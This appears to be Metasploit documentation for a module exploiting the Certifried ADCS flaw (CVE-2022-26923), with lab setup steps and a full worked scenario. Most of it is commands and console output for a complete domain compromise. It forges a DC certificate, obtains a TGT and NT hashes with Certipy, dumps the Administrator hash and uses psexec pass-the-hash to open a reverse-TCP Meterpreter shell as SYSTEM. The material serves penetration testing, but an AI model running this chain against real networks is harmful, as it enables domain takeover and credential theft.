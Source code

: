 ## Vulnerable Application

This adds an auxiliary module that exploits a privilege escalation
vulnerability in Active Directory Certificate Services (ADCS) known as
Certifried (CVE-2022-26923) to generate a valid certificate impersonating the
Domain Controller computer account. This certificate can be used along with
[Certipy](https://github.com/ly4k/Certipy) or
[BloodyAD](https://github.com/CravateRouge/bloodyAD) to get a TGT and access
the DC as an Administrator.

The module will go through the following steps:
1. Create a computer account
1. Change the new computer's `dNSHostName` attribute to match that of the DC
1. Request a certificate for this computer account and store it in the loot
1. Delete the computer account (only possible if the user is an administrator)


### Installing ADCS on a DC

- Open the Server Manager
- Select Add roles and features
- Select "Active Directory Certificate Services" under the "Server Roles" section
- When prompted add all of the features and management tools
- On the AD CS "Role Services" tab, leave the default selection of only "Certificate Authority"
- Complete the installation and reboot the server
- Reopen the Server Manager
- Go to the AD CS tab and where it says "Configuration Required", hit "More" then "Configure Active Directory Certificate..."
- Select "Certificate Authority" in the Role Services tab
- Keep all of the default settings, noting the value of the "Common name for
  this CA" on the "CA Name" tab (this value corresponds to the CA datastore
  option)
- Accept the rest of the default settings and complete the configuration


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `run rhosts=<remote host> SMBUser=<username> SMBPass=<user password> SMBDomain=<FQDN domain name> dc_name=<DC hostname> ca=<CA Name>`
1. Verify the module executes all the steps listed above
1. Verify the certificate is retrieved and stored in the loot


## Options

### DC_NAME

The name of the domain controller being targeted (must match RHOST)

### LDAP_PORT

The LDAP port. The default is 636 on an encrypted channel and 389 on a non-encrypted channel.

## Scenarios

### Windows Server 2019 Domain Controller with ADCS installed
```
msf6 auxiliary(admin/dcerpc/cve_2022_26923_certifried) > run verbose=true rhosts=10.0.0.24 SMBUser=test SMBPass=123456 SMBDomain=mylab.local dc_name='DC02' ca=mylab-DC02-CA
[*] Running module against 10.0.0.24

[*] 10.0.0.24:445 - Requesting the ms-DS-MachineAccountQuota value to see if we can add any computer accounts...
[+] 10.0.0.24:445 - Successfully authenticated to LDAP (10.0.0.24:636)
[*] 10.0.0.24:445 - ms-DS-MachineAccountQuota = 10
[*] 10.0.0.24:445 - Connecting SMB with test.mylab.local:123456
[*] 10.0.0.24:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 10.0.0.24:445 - Binding to \samr...
[+] 10.0.0.24:445 - Bound to \samr
[+] 10.0.0.24:445 - Successfully created mylab.local\DESKTOP-0GUXZOAE$ with password jwei99cs1ZJipQcegi8n8TMbQIlsBVXg
[*] 10.0.0.24:445 - Disconnecting SMB
[+] 10.0.0.24:445 - Successfully authenticated to LDAP (10.0.0.24:636)
[*] 10.0.0.24:445 - Retrieved original DNSHostame dc02.mylab.local for DC02
[*] 10.0.0.24:445 - Attempting to set the DNS hostname for the computer DESKTOP-0GUXZOAE$ to the DNS hostname for the DC: DC02
[*] 10.0.0.24:445 - Retrieved original DNSHostame dc02.mylab.local for DESKTOP-0GUXZOAE$
[+] 10.0.0.24:445 - Successfully changed the DNS hostname
[*] 10.0.0.24:445 - Connecting SMB with DESKTOP-0GUXZOAE$.mylab.local:jwei99cs1ZJipQcegi8n8TMbQIlsBVXg
[*] 10.0.0.24:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 10.0.0.24:445 - Binding to \cert...
[+] 10.0.0.24:445 - Bound to \cert
[*] 10.0.0.24:445 - Requesting a certificate for user DESKTOP-0GUXZOAE$ - template: Machine
[+] 10.0.0.24:445 - The requested certificate was issued.
[*] 10.0.0.24:445 - Certificate stored at: /home/msfuser/.msf4/loot/20220927185732_default_unknown_windows.ad.cs_673960.pfx
[*] 10.0.0.24:445 - Disconnecting SMB
[*] 10.0.0.24:445 - Connecting SMB with test.mylab.local:123456
[*] 10.0.0.24:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 10.0.0.24:445 - Binding to \samr...
[+] 10.0.0.24:445 - Bound to \samr
[!] 10.0.0.24:445 - Unable to delete the computer account, this will have to be done manually with an Administrator account (Could not delete the computer DESKTOP-0GUXZOAE$: Error returned while deleting user in SAM server: (0xc0000022) STATUS_ACCESS_DENIED: {Access Denied} A process has requested access to an object but has not been granted those access rights.)
[*] 10.0.0.24:445 - Disconnecting SMB
[*] Auxiliary module execution completed
```

### Testing the Certificate

Certipy can be used to request a TGT using the certificate to authenticate. The
ticket will be stored in a `ccache` file and the DC NT hash will be displayed:
```
❯ PYTHONPATH=. python3 certipy/entry.py auth -pfx /home/msfuser/.msf4/loot/20220927185732_default_unknown_windows.ad.cs_673960.pfx -dc-ip 10.0.0.24
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: dc02$@mylab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc02.ccache'
[*] Trying to retrieve NT hash for 'dc02$'
[*] Got hash for 'dc02$@mylab.local': aad3b435b51404eeaad3b435b51404ee:<redacted>
```

The NT hash can then be used with the `auxiliary/gather/windows_secrets_dump` module to dump the Administrator NT hash:
```
msf6 auxiliary(gather/windows_secrets_dump) > set ACTION DOMAIN
ACTION => DOMAIN
msf6 auxiliary(gather/windows_secrets_dump) > run verbose=true rhosts=10.0.0.24 SMBUser=DC02$ SMBPass=aad3b435b51404eeaad3b435b51404ee:<redacted> SMBDomain=mylab.local
[*] Running module against 10.0.0.24

[*] 10.0.0.24:445 - Opening Service Control Manager
[*] 10.0.0.24:445 - Binding to \svcctl...
[+] 10.0.0.24:445 - Bound to \svcctl
...
# NTLM hashes:
MYLAB\Administrator:500:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
...
```

Finally, use this NT hash to get command execution with the `exploit/windows/smb/psexec` module:
```
msf6 exploit(windows/smb/psexec) > run verbose=true rhosts=10.0.0.24 SMBUser=Administrator SMBPass=aad3b435b51404eeaad3b435b51404ee:<redacted> SMBDomain=mylab.local

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.24:445 - Connecting to the server...
[*] 10.0.0.24:445 - Authenticating to 10.0.0.24:445|mylab.local as user 'Administrator'...
[*] 10.0.0.24:445 - Checking for System32\WindowsPowerShell\v1.0\powershell.exe
[*] 10.0.0.24:445 - PowerShell found
[*] 10.0.0.24:445 - Selecting PowerShell target
[*] 10.0.0.24:445 - Powershell command length: 4340
[*] 10.0.0.24:445 - Executing the payload...
[*] 10.0.0.24:445 - Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.0.0.24[\svcctl] ...
[*] 10.0.0.24:445 - Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.0.0.24[\svcctl] ...
[*] 10.0.0.24:445 - Obtaining a service manager handle...
[*] 10.0.0.24:445 - Creating the service...
[+] 10.0.0.24:445 - Successfully created the service
[*] 10.0.0.24:445 - Starting the service...
[+] 10.0.0.24:445 - Service start timed out, OK if running a command or non-service executable...
[*] 10.0.0.24:445 - Removing the service...
[+] 10.0.0.24:445 - Successfully removed the service
[*] 10.0.0.24:445 - Closing service handle...
[*] Sending stage (175686 bytes) to 10.0.0.1
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.1:58736) at 2022-09-27 21:26:10 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MYLAB
Logged On Users : 7
Meterpreter     : x86/windows
```
